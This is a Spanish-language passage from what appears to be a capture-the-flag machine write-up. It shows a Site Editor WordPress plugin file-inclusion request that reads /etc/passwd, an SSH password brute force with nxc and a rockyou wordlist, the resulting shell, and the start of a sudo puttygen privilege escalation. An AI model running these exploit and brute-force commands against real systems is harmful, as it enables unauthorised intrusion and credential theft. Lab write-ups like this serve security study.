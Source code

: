 Validamos la vulnerabilidad de la siguiente forma:
```python
$curl http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd | grep /bin/bash
[...]
root:x:0:0:root:/root:/bin/bash
curiosito:x:1000:1000::/home/curiosito:/bin/bash
```

  Conociendo un usuario de la máquina host, se validó su existencia en la administración de wordpress, aunque con resultados negativos porque el panel del login arroja el siguiente mensaje:
	**Error**: El nombre de usuario **curiosito** no está registrado en este sitio. Si no estás seguro de tu nombre de usuario, prueba con tu dirección de correo electrónico en su lugar.
## Explotación
Se creó un diccionario para iniciar un ataque de fuerza bruta y se ejecutó:
```python
$touch my_rockyou.txt && head -n 500 /usr/share/wordlists/rockyou.txt > my_rockyou.txt
$nxc ssh asucar.dl -u curiosito -p my_rockyou.txt --ignore-pw-decoding
[...]
SSH         172.17.0.2      22     asucar.dl        [+] curiosito:password1 (Pwn3d!) Linux - Shell access!
```

Se validó la información obtenida con un acceso a SSH:
```python
$ssh curiosito@asucar.dl
[...]
curiosito@185c8bd9fa1e:~$ pwd && ls -la
/home/curiosito
total 16
drwxr-xr-x 1 curiosito curiosito   88 May 12  2024 .
drwxr-xr-x 1 root      root        18 May 12  2024 ..
-rw------- 1 curiosito curiosito  362 May 12  2024 .bash_history
-rw-r--r-- 1 curiosito curiosito  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 curiosito curiosito 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 curiosito curiosito  807 Apr 23  2023 .profile
d-wxr-x--- 1 curiosito curiosito   42 May 12  2024 .ssh
```

## GanarControl
Como un inicio de escalación de privilegios, encontramos esto:
```python
curiosito@185c8bd9fa1e:~$ sudo -l
Matching Defaults entries for curiosito on 185c8bd9fa1e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User curiosito may run the following commands on 185c8bd9fa1e:
    (root) NOPASSWD: /usr/bin/puttygen
```
